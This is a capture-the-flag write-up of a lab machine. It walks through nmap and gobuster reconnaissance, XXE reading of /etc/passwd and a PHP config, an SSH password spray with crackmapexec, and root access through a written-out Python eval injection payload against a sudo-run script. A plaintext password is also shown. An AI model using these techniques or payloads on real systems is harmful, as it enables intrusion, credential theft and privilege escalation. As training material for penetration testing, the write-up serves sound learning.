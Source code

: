 ## understanding the structure

1. nmapping the server looking for open ports and hints: <code>sudo nmap -p- --min-rate 10000 -oA bountynmap/ports -v 10.10.11.100</code>
![nmap1 results](https://is-going-to-rick-roll.me/1637699944.png)


From the nmap result i can understand that ports <mark>80, and 22</mark> are open

Now I'll run a deeper nmap to check sevrer info and what's actually is open

<code>sudo nmap -sC -sV -oA bountynmap/etc -p 80,22 10.10.11.100</code>
![nmap2 results](https://is-going-to-rick-roll.me/1637699794.png)

<br>

## mapping the website - looking for vulnerabilities in UI 

After opening burp suite and checking all pages and forms i can see the they are not really doing any action.
Besides the portal page thats navigates to http://10.10.11.100/log_submit.php

![burp suite check](https://is-going-to-rick-roll.me/1637762423.png)

this form sends the data i input to the form and encodes in base64
decoding this string returns XML instructions.

try to change the date to XML with XXE

From looking at the pages I can also see that the website is coded in PHP, so I started to run `gobuster` (brute-force tool) on SecLists raft-small-words list.
<code>gobuster dir -w SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o hunterPages.txt -u http://10.10.11.100</code>


![XXE found](https://is-going-to-rick-roll.me/1637762393.png)

<br>

## executing commands/drawing out data from the server

After we found the first vulnerability we can use it and try to draw data, let's try getting the passwd file usign using the XXE.

![XXE](https://is-going-to-rick-roll.me/1637762776.png)

and here we go, it returned all the registered users

save the result in new file and grpe all users:

<code>grep home passwdFile | cut -d: -f1</code>

![users](https://is-going-to-rick-roll.me/1637763224.png)
we have two users: `"syslog", and "development"`

<br>

Now when the brute-force process (using gobuster) has endeed we can take a look at the output (hunterPages.txt) and take a look on all the pages.
From a first look i can find a file that might contain some details "/db.php"

trying to navigate to http://10.10.11.100/db.php returns  200 without any data, so maybe we can try getting this page with XXE


![db file](https://is-going-to-rick-roll.me/1637765282.png)

now the td tag line returns a result including something that might be the db.php encrypted.
decoding it using base64 returns
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "password-was-removed-do-it-yourself";
$testuser = "test";
?>
```

alright now when we have the password we can try and login to a user.
I used `crackmapexec` to try and login to one of the users.

create a file with all the users we found (development and syslog)
run: `crackmapexec ssh 10.10.11.100 -u users.lst -p "m19RoAU0hP41A1sTsq6K"`


##### crackmapexec result
![crackmapexec result](https://is-going-to-rick-roll.me/1637776835.png)

as we can see from the result, we have now the connection info to user: development followed by his password we found.

###### connect via SSH

<code>cat user.txt</code> - Congrats this is the first flag.



<br>

## Time to own the system

run: <code>sudo -l</code> to see what files the current user can run

![sudo -l -> response](https://is-going-to-rick-roll.me/1637778122.png)

The only intresting file is ticketValidator.py, this is also might me our hint.

After a short look i can see that this file is evaluating user input, so it might be vulnerable.

# Conclusions regarding the script [a relative link](/bountynmap/ticketValidator.py)

* File must to end with <mark>.md</mark>
* First line in the file must be <mark># Skytrain Inc</mark>
* Second line in the file must to start with <mark>## Ticket to &nbsp;</mark>
* Closed tickets 3rd line will be <mark>__Ticket Code:__</mark> you can also leave it like <mark>__Ticket Code:</mark>
  but line after must to start with <bold>**</bold> and it'll be replaced with ""
* After all these steps and if you pass all the checks It'll check if <code>if int(ticketCode) % 7 == 4:</code> is true
and It'll eval <code>eval(x.replace("**", ""))</code>


<h6>make sure to run this script with sudo</h6>
```s
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**11+__import__("os").system("bash")
```

run: <code>whoami</code> -> congrats you are root!

```s
cd ~
```

```s
cat root.txt
```